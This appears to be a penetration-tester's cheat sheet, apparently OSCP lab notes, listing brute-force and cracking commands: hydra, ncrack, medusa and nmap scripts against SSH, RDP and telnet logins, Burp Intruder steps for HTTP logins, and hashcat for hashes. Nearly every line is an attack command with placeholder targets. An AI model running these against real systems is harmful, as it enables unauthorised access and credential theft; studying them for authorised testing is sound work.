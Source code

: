 hydra -C metasploitableuserpass.txt *target* ssh

### nmap brute

nmap --script brute -Pn

### ncrack

ncrack -vv --user Administrator -P /root/oscp/passwords.txt rdp://*target*

### ncrack SSH

ncrack -p 22 --user root -P 500-worst-passwords.txt *target*

### medusa SSH

medusa -u root -P 500-worst-passwords.txt -h *target* -M ssh

### burp suite brute force for HTTP logins

1. set proxy settings

2. intercept login

3. forward login

4. look at site-map

5. input username and password into fields and refresh / intercept

6. forward request and look for user= and password=

7. right click and send to intruder

8. forward request and turn off intercept

9. click intruder > positions > remove or add dollar signs > select cluster bomb from top > click payloads > set payloads 1 & 2


### ncrack RDP

ncrack -u administrator -P 500-worst-passwords.txt -p 3389 *target*

### Telnet Bruteforce

hydra -C metasploitableuserpass.txt *target* telnet

### Cracking hashes

hashcat -m 500 metasploitablehash.txt metasploitablepass.txt 

### Identify hashes

hash-identifier

if that dosn't work then download the aplication and grep hash though the files which could lead you to the type of hash
